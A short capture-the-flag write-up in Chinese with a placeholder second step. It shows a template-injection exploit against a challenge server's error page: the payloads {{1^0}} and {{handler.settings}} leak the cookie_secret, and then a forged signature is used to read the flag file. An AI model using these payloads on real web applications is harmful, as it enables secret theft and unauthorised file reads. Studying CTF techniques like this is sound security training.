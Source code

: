 ##  (Title)

##  Tools

NULL

##  Steps

* Step 1 
报错时的error参数存在模板注入
'''http://49.4.78.81:30980/error?msg={{1^0}}
'''
提交
'''http://49.4.78.81:30980/error?msg={{handler.settings}}
'''
可以看到cookie_secret
伪造签名读取flag
'''http://49.4.78.81:30980/file?filename=/fllllllllllag&signature=7bae09c2c6e2f6aa34df7dbee23db960
'''


- Step 2

XXX


